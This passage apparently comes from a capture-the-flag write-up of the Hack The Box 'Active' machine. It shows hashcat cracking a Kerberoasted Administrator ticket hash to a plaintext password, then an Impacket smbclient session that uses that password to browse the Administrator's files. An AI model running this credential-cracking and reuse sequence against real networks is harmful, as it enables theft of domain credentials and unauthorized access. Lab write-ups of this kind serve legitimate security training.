 8161cf02a9e6eb47041a83258353fb2fdd434a20de6362cb17f42b44b53f4f7b6ecd83d1b4c23698562a1ebe5b306bc6154aaaf3668738fb72078e90ad4ce5c72cd6f92df6d6747d6fcd7d23b9616a9fdbdd4312a25960102dc9b6985128e77fc7b6227bf27248efe90  
f6637e0b98bb4a72e6e452b80931649dec99bf2e8fa3c418889a6d83576110f1ad655f3e67c798b724e7b8ae1512b32ab4dbb5e46f1fd278124ba952467ec27014f0ea8e88346db8949b6c606fc9d7081ad03b85d7fa15b96a60:Ticketmaster1968

Session……….: hashcat  
Status………..: Cracked  
Hash.Type……..: Kerberos 5 TGS-REP etype 23  
Hash.Target……: $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~4…b96a60  
Time.Started…..: Fri Dec 7 10:25:31 2018 (13 secs)  
Time.Estimated…: Fri Dec 7 10:25:44 2018 (0 secs)  
Guess.Base…….: File (/usr/share/wordlists/rockyou.txt)  
Guess.Queue……: 1/1 (100.00%)  
Speed.#1………: 780.3 kH/s (10.58ms) @ Accel:64 Loops:1 Thr:64 Vec:8  
Recovered……..: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts  
Progress………: 10551296/14344385 (73.56%)  
Rejected………: 0/10551296 (0.00%)  
Restore.Point….: 10534912/14344385 (73.44%)  
Restore.Sub.#1…: Salt:0 Amplifier:0-1 Iteration:0-1  
Candidates.#1….: Tioncurtis23 -> TUGGIE

Started: Fri Dec 7 10:25:30 2018  
Stopped: Fri Dec 7 10:25:45 2018  
root@kali:~/active# python smbclient.py Administrator:Ticketmaster1968@10.10.10.100  
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

Type help for list of commands

# use Users

# ls

drw-rw-rw- 0 Sat Jul 21 16:39:20 2018 .  
drw-rw-rw- 0 Sat Jul 21 16:39:20 2018 ..  
drw-rw-rw- 0 Mon Jul 16 12:14:21 2018 Administrator  
drw-rw-rw- 0 Mon Jul 16 23:08:56 2018 All Users  
drw-rw-rw- 0 Mon Jul 16 23:08:47 2018 Default  
drw-rw-rw- 0 Mon Jul 16 23:08:56 2018 Default User  
-rw-rw-rw- 174 Mon Jul 16 23:01:17 2018 desktop.ini  
drw-rw-rw- 0 Mon Jul 16 23:08:47 2018 Public  
drw-rw-rw- 0 Sat Jul 21 17:16:32 2018 SVC_TGS

# cd Administrator

# ls

drw-rw-rw- 0 Mon Jul 16 12:14:21 2018 .  
drw-rw-rw- 0 Mon Jul 16 12:14:21 2018 ..  
drw-rw-rw- 0 Mon Jul 16 12:14:15 2018 AppData  
drw-rw-rw- 0 Mon Jul 16 12:14:15 2018 Application Data  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Contacts  
drw-rw-rw- 0 Mon Jul 16 12:14:15 2018 Cookies  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Desktop  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Documents  
drw-rw-rw- 0 Mon Jul 30 15:50:27 2018 Downloads  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Favorites  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Links  
drw-rw-rw- 0 Mon Jul 16 12:14:15 2018 Local Settings  
drw-rw-rw- 0 Mon Jul 30 15:50:10 2018 Music  
drw-rw-rw- 0 Mon Jul 16 12:14:15 2018 My Documents  